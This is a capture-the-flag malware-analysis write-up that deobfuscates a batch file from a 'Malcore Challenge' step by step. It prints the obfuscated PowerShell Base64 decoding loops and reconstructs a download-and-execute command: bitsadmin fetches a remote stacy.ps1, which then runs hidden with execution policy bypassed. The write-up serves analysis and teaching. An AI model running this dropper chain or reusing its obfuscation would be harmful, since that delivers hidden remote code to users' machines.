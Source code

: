 # Malcore Challenge

{% embed url="https://raw.githubusercontent.com/Internet-2-0/file-samples/master/scripts/batch/stacysmom.bat" %}

***

## Brief Introduction

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Given was a batch file. Upon analysing the file suggested that the script defines several variables with obfuscated names and encoded values. It uses Base64 encoding and other forms of obfuscation to hide the actual commands being executed. The script uses PowerShell to decode Base64 encoded strings and convert them into executable commands. It then constructs and runs commands based on the decoded values.

***

## Variable Obfuscation

```batch
set eitg=set
%eitg% gopy=for
%eitg% hetY="tokens=* delims=" && %eitg% GhEt=in && %eitg% SADFCweFDCWQE=/f
```

Above are the variable declaration made in the script. As we can see `eitg` is declared as `set`. So every time that variable is called using `%eitg%` , it will run the command `set`.

***

## Main Operation

Below are the obfuscated functions that play a crucial role in the scripts. Understanding how the variable declared from the section before, we can construct a more readble functions.

```
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""%OYUIThbgrwtWCVRE%"""^)^)') do %eitg% "CVWQeFEWRFQWEd=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""%DwqeqwefWEFqwer%"""^)^)') do %eitg% "WreqwecQWEFRWE=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%QWErfqwfecQWEDWEX%"""^)^)') do %eitg% "KIUYntyERverERF=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%QWEcwgrtHWTFWEQaxwe%"""^)^)') do %eitg% "NbfdsvREVntySRE=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%RTYUvERQCXergtewsr%"""^)^)') do %eitg% "iUYTbyteVERTfer=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%NETRYverEWERCREWweq%"""^)^)') do %eitg% "QWWEcdweWERee=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%ERTYbrtWCRWEfverwfcwer%"""^)^)') do %eitg% "QWERfcerWEDfcvtbytTYR=%%#"
```



Deobfuscated functions are as below:

```batch
for /f tokens=* delims= %%# in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""%OYUIThbgrwtWCVRE%"""^)^)') do set "CVWQeFEWRFQWEd=%%#"
for /f tokens=* delims= %%# in ('%CVWQeFEWRFQWEd% [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""%DwqeqwefWEFqwer%"""^)^)') do set "WreqwecQWEFRWE=%%#"
for /f tokens=* delims= %%# in ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%QWErfqwfecQWEDWEX%"""^)^)') do set "KIUYntyERverERF=%%#"
for /f tokens=* delims= %%# in ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%QWEcwgrtHWTFWEQaxwe%"""^)^)') do set "NbfdsvREVntySRE=%%#"
for /f tokens=* delims= %%# in ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%RTYUvERQCXergtewsr%"""^)^)') do set "iUYTbyteVERTfer=%%#"
for /f tokens=* delims= %%# in ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%NETRYverEWERCREWweq%"""^)^)') do set "QWWEcdweWERee=%%#"
for /f tokens=* delims= %%# in ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%ERTYbrtWCRWEfverwfcwer%"""^)^)') do set "QWERfcerWEDfcvtbytTYR=%%#"
```

Ah, much better. But there are still an encoded value we need to decode. As seen in the first line above, there was a powershell command executing a base64 conversion. The variable inside the **FromBase64String()** function points to the encoded value somewhere in script.

***

## Decoding Values

I tried to use base64dump.py but somehow it does not detect those strings as a base64 encoding.

Below are the variables and its decoded values:

```
# this is kinda of pointless 
FWEfvrewFWRVEwer=dG#######hpc##########yB#####pc##########yBraW5k#####Y#######SBv######Zi######Bwb2l##########ud#######Gx#####lc#########3M######K######

# Flying saucers often cross my mind when I'm high I'm trippin'
POUINTYEBRTwertf=R!!!!!!m!!!!!!!!!x5aW5n!!!!!!!IHNh!!!!!!!!!dWNl!!!!!!!!!c!!!!!!!!n!!!!!!!!!Mg!!!!!!!!!!b2Z!!!!!!!!!0ZW4gY3!!!!!!!!!J!!!!!!!vc3Mg!!!!!!!bXkgbWlu!!!!!!Z!!!!!!!!!C!!!!!!B!!!!!!3!!!!!!!!aGV!!!!!!uI!!!!!!!EknbSBoa!!!!!!!Wdo!!!!!!!!!IEk!!!!!!!!n!!!!!!!!bSB0!!!!!!cmlwcGl!!!!!!!uJ!!!!!!w!!!!!o=!!!!!

# stacy.ps1
WeTTyhRRvfer=c@@@@@@3R@@@@h@@@@@@@@@Y3k@@@ucH@@@@@@@M@@@xCg@@@==@@@@@@@

# https://raw.githubusercontent.com/Internet-2-0/file-samples/master/scripts/powershell/stacy.ps1 
VerBrtEwFCWe=a!!!!!!H!!!!!R0c!!!!!HM!!!!!!!!!6!!!!!!!!!L!!!!!y!!!!!9!!!!!y!!!!!!!!!!YXc!!!!!!!uZ2!!!!!l0aHVi!!!!!!!!!d!!!!!!!!!!X!!!!!!!!NlcmNvb!!!!!!!!!n!!!!!!!!RlbnQu!!!!!!!!!!Y29tL!!!!!!!0ludG!!!!!!!!!!Vyb!!!!!!m!!!!!!V!!!!!!0LTItM!!!!!!!C!!!!!!!9m!!!!!!a!!!!!!!W!!!!!!!!!!xl!!!!!!!!!!L!!!!!!!X!!!!!N!!!!!h!!!!!!!!bX!!!!!!!!!!B!!!!!!!s!!!!!!!!!!Z!!!!!XMvbWF!!!!!!z!!!!!!!!!!d!!!!!!!!GV!!!!!!!!!!y!!!!!!!!!!L3N!!!!!!jcm!!!!!!!!!!lwdHMvc!!!!!G!!!!!!!!!!9!!!!!!!!3ZXJzaG!!!!!!!!V!!!!!!!!!sbC9z!!!!!!!!!!d!!!!!!!GFjeS5wc!!!!!!zE!!!!!!K!!!!!!!

# [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String
WERtggbvtrWERV=W1N5c!!!!!!!!!!3!!!!!!!!!Rlb!!!!!S5UZXh0LkVuY29ka!!!!!W5!!!!!!nX!!!!!!!!!!To6!!!!!V!!!!!V!!!!!!!!RG!!!!!!!!!!O!!!!!!!!!C5HZXR!!!!!!T!!!!!!!!!!d!!!!!H!!!!!!!Jp!!!!!!!!!!b!!!!!!!!mcoW1N!!!!!!!!5!!!!!c3RlbS5D!!!!!!!!b!!!!!!!25!!!!!!!2!!!!!!ZXJ!!!!!!!0XTo6Rn!!!!!!!!!J!!!!!!!!!!v!!!!!!!!!!bUJh!!!!!!c!!!!!2!!!!!!U2!!!!!!!!!NFN!!!!!!!!!!0!!!!!!!!!cmluZw!!!!!!!!!!o=

# bitsadmin.exe /transfer
NTYerFVERHetERfewef=Y@@@@@@ml0c2Fk@@@@@@@b@@@@@@@@@WluLmV4@@@@@@@@@ZS@@@@@@A@@@@@@v@@@@@@@@@d@@@@@@@HJh@@@@@@bnNmZXI@@@@@@@@K@@@@@@@@@@

# 2795e16d0061f24c913c2602c24535cac20247c25c9c36a89d20ad4820bc4b72  groups.json
# 8cb1fe0e9a428f1a3ffa79763e9a0b58175af886ff3bf91f310f48dd8a2a638d  pretty_groups.json
BRTwercvWQEFRWE=Mjc!!!!!!!!5!!!!!!!NWUx!!!!!!Nm!!!!!!!!!!Q!!!!!wM!!!!!!!DYx!!!!!!!ZjI0!!!!!!!!Yzkx!!!!!!M2My!!!!!NjAyY!!!!!!!!zI0NTM1Y!!!!!!!!!2F!!!!!!j!!!!!!!Mj!!!!!!!!!A!!!!!!!!!!yND!!!!!!!d!!!!!!!!!j!!!!!!!Mj!!!!!!!!Vj!!!!!!!OWM!!!!!!zNmE4!!!!!!!!!!O!!!!!WQyM!!!!!!!!!!GFk!!!!!!!!!NDgy!!!!!!!!!MGJj!!!!!!!!!NGI3M!!!!!i!!!!!!A!!!!!!!!!!gZ3Jv!!!!!!dX!!!!!!!BzLmpzb2!!!!!!!!4KOG!!!!!!!!!!NiMW!!!!!Zl!!!!!!!!M!!!!!!!!!GU!!!!!!!!!5YTQ!!!!!!yOGYxY!!!!!!!!!!TN!!!!!!!!!m!!!!!!!!!!ZmE!!!!!!3O!!!!!!T!!!!!!!!!c2!!!!!!!!!M2!!!!!!U5Y!!!!!!!TBi!!!!!!!!!!NTg!!!!!!!x!!!!!N!!!!!!!!!zV!!!!!!!!!h!!!!!!Z!!!!!j!!!!!!g!!!!!!!!!4NmZmM!!!!!!!!!!2!!!!!!!!!!J!!!!!mO!!!!!TFm!!!!!!!!!!Mz!!!!!!!Ew!!!!!!Z!!!!!jQ4ZGQ!!!!!!!!!4Y!!!!!TJ!!!!!hNj!!!!!!!!!M4ZC!!!!!AgcH!!!!!!!!J!!!!!!!l!!!!!dHR5X2!!!!!!!!!dyb3Vwcy!!!!!!!!!5qc29u!!!!!!!Cg!!!!!!!!!=!!!!!!!!!=!!!!!!!

# -NoP -wiNdowSTYLE hiddeN -ExEcuTioNPolicy BypAss -CoMmAND
RTYbrtgVEWRqqwer=LU5vUC@@@@@@At@@@@@@@@@d@@@@@2l@@@@@@@@@@O@@@@@@@ZG93@@@@@@U@@@@@@@@1@@@@@RZTEU@@@@@@@gaGl@@@@@kZ@@@@@@GVOI@@@@@@@@C1@@@@@@@@F@@@@@@@@e@@@@@@@@@E@@@@@@@@@V@@@@@@j@@@@@@@@@d@@@@@@@V@@@@@@@@R@@@@@@p@@@@@@@@@@b05Q@@@@@@@@@@b2@@@@@@xpY3@@@@@kgQn@@@@@lw@@@@@@@@@QX@@@@@NzI@@@@@@@@C@@@@@@1Db01@@@@@@@@@@tQU@@@@@5EC@@@@@g==
```

***

## Reconstructing Full Command

The very last line of the script suggest that the full command being constructed and executed.

```
%QWERfcerWEDfcvtbytTYR% "%iUYTbyteVERTfer%" %KIUYntyERverERF% %cd%\%NbfdsvREVntySRE% && %CVWQeFEWRFQWEd% %QWWEcdweWERee% "%cd%\%NbfdsvREVntySRE%"
```

Using the same techniques from the sections before to reconstruct the command executed by this batch file.

```batch
bitsadmin.exe /transfer "f48920e537d9c4e0e795971da3646444190eecd24d719303becdd9a13bfa5810" https://raw.githubusercontent.com/Internet-2-0/file-samples/master/scripts/powershell/stacy.ps1 cd\stacy.ps1 && powershell.exe -NoP -wiNdowSTYLE hiddeN -ExEcuTioNPolicy BypAss -CoMmAND cd\stacy.ps1
```

